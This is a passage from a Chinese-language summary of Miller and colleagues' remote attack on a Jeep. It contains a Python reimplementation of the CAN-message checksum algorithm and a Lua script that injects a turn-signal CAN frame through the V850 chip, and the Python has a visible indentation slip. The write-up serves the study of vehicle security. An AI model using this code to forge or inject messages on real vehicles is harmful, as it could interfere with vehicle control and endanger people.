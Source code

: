 Miller等人先将这段汇报逆向为C，再由C转变为python 代码：
```python

def calc_checksum(data, length):
  end_index = length - 1
  index = 0
  checksum = 0xFF
  temp_chk = 0;
  bit_sum = 0;
  if(end_index <= index):
      return False
  for index in range(0, end_index):
      shift = 0x80
      curr = data[index]
      iterate = 8
      while(iterate > 0):
          iterate -= 1
          bit_sum = curr & shift;
          temp_chk = checksum & 0x80
          if (bit_sum != 0):
              bit_sum = 0x1C
              if (temp_chk != 0):
                  bit_sum = 1
              checksum = checksum << 1
              temp_chk = checksum | 1
              bit_sum ^= temp_chk
          else:
              if (temp_chk != 0):
                  bit_sum = 0x1D
              checksum = checksum << 1
              bit_sum ^= checksum
          checksum = bit_sum
          shift = shift >> 1
 return ~checksum & 0xFF
```

如果把来自 PAM 消息的3字节数据作为参数输入上面的函数，将得到正确的校验和。更为重要的是，所有在 Jeep‘s CAN 中看到的CAN消息，都包含了一个 1字节的校验和，这些checksum都使用了相同的算法。这样就得到了通用的校验和算法。事实上，还发现了另外两个校验和算法，与上面的类似但字节长度不同，在jeep这款车型中不常用。

当我们可以通过远程渗透在车内发送 CAN 消息，下一步就是查看哪些消息会真的影响车辆控制。Miller 等人在之前一整年的研究中梳理了发送给 Ford 和 Toyota 的消息类型，但对于 Jeep车型尚未梳理。为了证明远程攻击的效果，文中只尝试了少量可以控制车辆的消息。

车内的 CAN 消息通常分为两类：常规消息和诊断消息。常规消息在常规操作过程中均可在总线上发现；诊断消息仅用于对ECU进行测试时或非常规操作发生时可见。在 Miller 等人的报告中仅讨论了常规 CAN 消息。
- 转向信号
  - 转向信号在CAN-C网络上由ID为 “0x04F0” 的CAN消息控制。如果第一个字节为 01，会产生左转信号；如果第一个字节为 02，会产生右转信号。下面的LUA 脚本用于激活转向指示灯。

注意：这个脚本使用了 SPI 与V850芯片通信，所以 CAN ID 移动了2位，以适配硬件要求。

```lua
local clock = os.clock
function sleep(n) -- seconds
  local t0 = clock()
  while clock() - t0 <= n do end
end
ipc = require("ipc")
file = '/dev/ipc/ch7'
g = assert(ipc.open(file))
while true do
  -- can3 can2 can1 can0 data0
  g:write(0xf0, 0x02, 91, 0x07, 0x00, 0x00, 0xC0, 0x13, 0x01, 0x00, 0x00,0x00, 0x00, 0x00, 0x00) -- left turn
  sleep(.001)
end
```
